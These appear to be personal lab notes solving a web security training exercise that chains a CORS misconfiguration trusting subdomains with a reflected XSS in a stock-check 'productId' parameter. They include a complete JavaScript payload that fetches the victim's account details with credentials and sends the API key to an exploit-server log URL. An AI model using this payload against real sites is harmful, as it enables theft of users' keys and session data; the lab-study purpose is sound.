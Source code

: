 Steps to check. Remember to put https://, some times it doesnt works
![[Pasted image 20250801201731.png]]
First we checked that if we change the sub-domain the response shows ACAO(access control allow origin) with the sub-domain included
1. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name.
2. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

![[Pasted image 20250214180745.png]]

We need to find a XXS, which is on the stock request in the productID parameter. The capture below shows the vulnerability
![[Pasted image 20250214182807.png]]
Then we can send this script to get the API Key

```JS
<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"</script>
```

This is other solution from one of the videos. On the second screenshot she removed all the spaces because we need a long line like the above one
![[Pasted image 20250801203012.png]]
Also here we need to change to, in this case, the server that the lab gave us.
![[Pasted image 20250801203410.png]]